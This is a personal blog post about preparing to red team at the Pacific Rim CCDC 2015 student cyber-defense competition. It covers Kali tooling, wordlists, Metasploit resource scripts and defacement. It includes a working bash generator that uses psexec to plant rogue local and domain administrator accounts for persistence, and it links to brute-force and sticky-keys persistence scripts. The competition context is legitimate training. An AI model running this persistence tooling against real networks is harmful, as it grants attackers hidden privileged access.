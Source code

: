 ```yaml
---
layout: post
title: How I Prepared to Red Team at PRCCDC 2015
summary: A bit about how I prepared for the Pacific Rim CCDC 2015 competition
image: /assets/prccdc2015/prccdc2015-defacement.gif
tags:
- ccdc
---
```


I had the opportunity to take part in the Pacific Rim CCDC this past weekend and it was a BLAST! It was my first CCDC, so I really didn't know what to expect. I did know that the last thing I would want to be doing is installing and configuring tools during test time.

### Kali
I err'd on the side of installing tools I may not use rather than not installing something I would need. I've got a goto script I use for my setting up a Kali VM and customizing. It installs a ton of tools and scripts that I use. The script can be found [here](https://github.com/bluscreenofjeff/CCDC-Scripts/blob/master/kali_setup.sh).


Then, I made some manual tweaks:

* Change root password
* Enable autologin within `/etc/gdm3/daemon.conf`
* Disable screen lockout
* Add Leafpad and Screenshot to taskbar
* Alias `msfconsole='msfconsole -r /msfconsole.rc'`
* Add `* * * * * /payload_gen.sh` to crontab

Next up was loading up on wordlists. I rounded up the usual suspects (Cain, John, RockYou, etc) but I knew I would want to add some inconspicuous user accounts and mess with the Blue Team's host file. To accomodate, I found lists of the top 10,000 US last names and internet domain names. I ended up just whipping up a slightly taunting list of 10 usernames that I used day of, but if I needed 10k usernames I had them.

I wrote a quick bash script to create a Metasploit resource script and batch file that creates new local users and add them to the local admin group for persistence sake.

```bash
#!/bin/bash
#by bluescreenofjeff
IFS=$'\n'
USERLISTFILE='/root/Desktop/users.txt'
PASSVAR='StrongPassword1'
OUTFILELOCAL='mass_user_add_local.rc'
OUTBATLOCAL='mass_user_add_local.bat'
OUTFILEDOMAIN='mass_user_add_domain.rc'
OUTBATDOMAIN='mass_user_add_domain.bat'

#BAT Output - local
for CURRUSER in `cat $USERLISTFILE`
do
	echo net user $CURRUSER /add /active:yes\ >> $OUTBATLOCAL
	echo net user $CURRUSER $PASSVAR >> $OUTBATLOCAL
	echo net localgroup  administrators $CURRUSER  /add >> $OUTBATLOCAL
done

#BAT to RC - local
echo 'use auxiliary/admin/smb/psexec_command' >> $OUTFILELOCAL
for EACH in `cat $OUTBATLOCAL`
do
	echo set command \" $EACH \" >> $OUTFILELOCAL
	echo run >> $OUTFILELOCAL
done


#BAT Output - domain
for CURRUSER in `cat $USERLISTFILE`
do
	echo net user $CURRUSER /add /active:yes /domain >> $OUTBATDOMAIN
	echo net user $CURRUSER $PASSVAR /domain >> $OUTBATDOMAIN
	echo net localgroup  administrators $CURRUSER  /add /domain >> $OUTBATDOMAIN
	echo net group "Enterprise Admins"  $CURRUSER /add /domain >> $OUTBATDOMAIN
	echo net group "Enterprise Admins"  $CURRUSER /add /domain >> $OUTBATDOMAIN
done

#BAT to RC - domain
echo 'use auxiliary/admin/smb/psexec_command' >> $OUTFILEDOMAIN
for EACH in `cat $OUTBATDOMAIN`
do
	echo set command \" $EACH \" >> $OUTFILEDOMAIN
	echo run >> $OUTFILEDOMAIN
done
```

[Source](https://github.com/bluscreenofjeff/CCDC-Scripts/blob/master/mass_user_add_generator.sh)


### Metasploit
Most of the Red Teamers used Cobalt Strike Team Servers as their base of operations, but since I haven't used it that much and didn't want to potentially get shut out of my target boxes because of learning curve. I decided to stick with msfconsole as my main tool for the weekend. My main goal in preparation was to get as much of the time-wasting stuff automated as possible.


* [intel.rc](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/intel.rc) - Runs a number of intel-gathering Windows commands. Run from the Meterpreter prompt.
* [bounce](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/bounce.rc) - Restarts a reverse_tcp listener on 443.
* [bouncessl](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/bouncessl.rc) - Restarts a reverse_https listener on 443.
* [local500.rc](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/local500.rc) - Sets up for a brute force of the built-in 500 accounts. Modify with `file:///path/to/wordlist` on line 4.
* [winpersist.rc](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/winpersist.rc) - Sets up sticky keys, utilman, and display persistence using psexec_command.
* [msfconsole.rc](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/winpersist.rc) - msfconsole startup script. Reference the file path in the alias above. This gets written by the script above



### Commands
The biggest prep item was getting a solid copy/paste command list ready. This was a big focus point of the Red Team this year since the goal was to attack Blue Teams with the same attacks at roughly the same times. The command list has been reposted by Action Dan [here](http://lockboxx.blogspot.com/2015/03/red-teaming-at-prccdc-2015.html). 

In the time leading up to the official start, I pasted every single command from Phase 1's attacks into their own consoles so once the Red Team gets the go-ahead all you have to do is hit enter. 





### Defacement
Though this was my first rodeo, I knew that there would be opportunities to deface some web interfaces and I wanted to be ready to bring some lulz. This is what I settled on:
![I am invincible!](/assets/prccdc2015/prccdc2015-defacement.gif)
[Source](https://github.com/bluscreenofjeff/CCDC-Scripts/tree/master/website-defacement)

Looking back now, I should have also gathered some nice gifs about patching or host hardenening.
     


### Prepping for Next Year
As I mentioned I had a blast this year and hope to attend again next year. Before then there are a few scripts I'd like to have written and in-hand before go-time:

* **ndiff to monitor environment** - Before this year I started tweaking this script from the nmap documentation to diff periodic scans and monitor for network changes. I didn't get it polished enough and now am wondering if it's the best way to get what I'm after, but I'd like to be able to monitor the Blue Team's environment as close to realtime as possible. Spot new hosts, identify restarts, etc.
* **Low-hanging fruit scans** - Along the same lines, I would like a way to constantly check for previously used credentials, previously exploited vulns, etc to try and catch systems when they get reverted. 
* **Script to remove users from admin groups** - This is something my Red cell team manually did this year. We got Domain Admin access and once the final phase of wreaking havoc was called on we ran the resource script to remove all DAs from the Domain Admin, Enterprise Admin, Schema Admin, and Remote Desktop user groups. It would have been much easier to have a script to make that resource script. Simple enough.
* **moar lulz** - Somewhere around the middle of Phase 2 my co-Red cell teamer and I were watching some Boos from Super Mario Bros. chasing the Blue Teamer's mouse and causing them much frustration while trying to write a Disaster Recovery Plan. That was a lot of fun. I'd like to find some more ways to make our presence known to the Blue Teamers without being too destructive and watch them try to remediate us out. VNC, replaced sysinternals tools, things like that would be fun...

If I had to give one piece of advice to a first time Red Teamer, my suggestion is to prepare as much as possible. The LAST thing you want to be doing during the competition is Googling how to run an exploit or how to add yourself to the local admin group. That's not to say you'll avoid it completely-- you most likely won't -- but you want to minimize searching time down to things that are unique to the environment at hand. Automate the basic stuff that takes time, copy/paste the rest.
    